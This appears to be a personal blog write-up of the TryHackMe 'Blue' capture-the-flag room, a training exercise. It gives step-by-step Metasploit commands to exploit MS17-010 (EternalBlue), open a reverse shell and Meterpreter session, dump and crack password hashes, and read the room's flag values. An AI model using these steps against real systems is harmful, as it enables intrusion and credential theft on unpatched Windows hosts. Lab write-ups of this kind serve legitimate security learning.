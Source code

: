 ```yaml
---
title: "CTF Blue THM"
date: 2024-07-22T18:42:43+10:00
draft: false
toc: false
images:
tags:
  - CTF
  - THM
  - TryHackMe
  - Metasploit
  - Meterpreter
  - SMB
  - nmap 
  - EternalBlue
  - MS17_010
---
```


**TryHackMe CTF: Blue Room Writeup**  
https://tryhackme.com/r/room/blue  
**Room Information**  

This room was created by ben and DarkStar7471, members of the TryHackMe community. This is my second CTF, and I will document my thought process and actions as I go through the challenges.

**Initial Scanning**

I started by running an Nmap scan on the target IP address:

```
sudo nmap -sC -sV -p- -T4 -vv 10.10.216.233
```

The Nmap scan revealed several open ports:

```
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
```

After reviewing the results, I noticed three ports below 1000, which answered one of the CTF questions.

Given the machine is running Windows 7 Professional with SMB service on port 445, I inferred it could be vulnerable to the MS17-010 (EternalBlue) exploit.

**Exploitation with Metasploit**

To exploit this vulnerability, I launched Metasploit and searched for the appropriate module.

```
msfconsole
search exploit/windows/smb/ms17_010_eternalblue
```

The search returned the module I needed, so I proceeded to use it.

```
use exploit/windows/smb/ms17_010_eternalblue
```

Next, I configured the necessary options:

```
show options
set LHOST <My_IP>
set RHOSTS 10.10.216.233
```

I then ran the exploit.

```
run
```

The exploit was successful, and I gained a command shell on the target machine:

```
[*] Command shell session 1 opened (My_IP:4444 -> 10.10.216.233:49242)
```

**Upgrading to Meterpreter**

To enhance my capabilities on the target, I decided to upgrade the shell to a Meterpreter session. After some research, I found that Metasploit offers a module for this purpose.

```
background
search post/multi/manage/shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
```

I checked the required options and set them accordingly:

```
show options
set SESSION 1
set LHOST <Your_IP>
set LPORT 4433
run
```

I confirmed the Meterpreter session:

```
sessions -l
```

**Privilege Escalation and Flag Discovery**

With the Meterpreter session active, I listed the running processes and selected a system-level process for migration to gain higher privileges.

```
ps
migrate <PID>
```

Having escalated privileges, I proceeded to dump the password hashes:

```
hashdump
```

I used CrackStation to crack the hashes and retrieved the user credentials which was required as a question on the CTF.

I was then asked to locate 3 flags on the system.

**Flag 1**

The CTF mentioned the first flag is located at the system root. I navigated to the C:\ drive and located first flag.

```
meterpreter > cd C:\
meterpreter > ls
meterpreter > cat flag1.txt
flag{access_the_machine}
```

Knowing that the first flag was named flag1.txt I assumed flag 2 and 3 would follow the same naming convention.

I then decided to use the search function to find flags 2 and 3.

**Flag 2**

The second flag is located where Windows stores passwords. I utilised the search function to find it:

```
meterpreter > search -f flag2.txt
Found 1 result...

c:\Windows\System32\config\flag2.txt
```

I navigated to the directory and viewed the contents:

```
meterpreter > cat c:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```

**Flag 3**

The third flag is located in the user’s documents. Again, I used the search function:

```
meterpreter > search -f flag3.txt
Found 1 result...

c:\Users\Jon\Documents\flag3.txt
```

I navigated to the directory and viewed the contents:

```
meterpreter > cat c:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```

**Conclusion**

This CTF was an excellent learning experience. Running through the Nmap scan helped me identify the open ports and potential vulnerabilities. Utilising Metasploit to exploit the MS17-010 vulnerability and upgrading to a Meterpreter session provided valuable practice in exploiting and navigating a Windows system. Retrieving the flags reinforced my skills in locating sensitive information within a compromised machine. I look forward to tackling more CTF challenges in the future.